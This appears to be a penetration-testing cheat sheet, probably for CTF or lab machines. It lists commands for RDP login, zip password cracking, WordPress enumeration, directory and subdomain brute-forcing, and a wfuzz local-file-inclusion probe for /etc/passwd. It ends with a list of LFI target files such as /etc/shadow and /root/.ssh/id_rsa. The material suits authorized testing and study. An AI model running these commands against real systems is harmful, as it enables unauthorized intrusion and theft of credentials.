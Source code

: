 ## xfreerdp:
xfreerdp /u:"USERNAME" /p:'PASSWORD' /v:"IP ADDRESS" +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share

## FTP Server:
sudo python3 -m pyftpdlib 21

## FCRACKZIP:
```bash
fcrackzip -u -D -p ~/Desktop/rockyou.txt chall.zip
```
## SCP:
scp remote_username@10.10.0.2:/remote/file.txt /local/directory

## WPSCAN:
wpscan --url "URL" -e u,ap,at,dbe --plugins-detection aggressive

## Gobuster:
gobuster dir -u "URL" -w /usr/share/wordlists/dirb/big.txt -x php,html,txt,bak *Directory Bruteforcing*
gobuster dns -d "URL" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt *Subdomain Enumeration*

## Dirsearch
python /opt/dirsearch/dirsearch.py -u http://URL/ -e php,txt,html,asp,aspx -w wordlist.txt -x 302,404 -F -r --deep-recursive --force-recursive -R 5

## WFUZZ:
wfuzz -u http://10.10.11.135/image.php?FUZZ=/etc/passwd -w /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt -t 50 --hh 0

## LFI Files to Look For:
https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html

> LINUX:
https://github.com/D35m0nd142/LFISuite/blob/master/pathtotest.txt
/etc/issue
/etc/profile
/proc/version
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/root/.ssh/id_rsa
/var/log/apache2/access.log
/proc/self/cmdline
/proc/<NUMBERS FROM 1 - 1000 TO CHECK FOR 1000 PROCESSES>/cmdline
config files
/etc/apache2/sites-available/000-default.conf
/etc/apache2/sites-available/<VHOST NAME>.conf
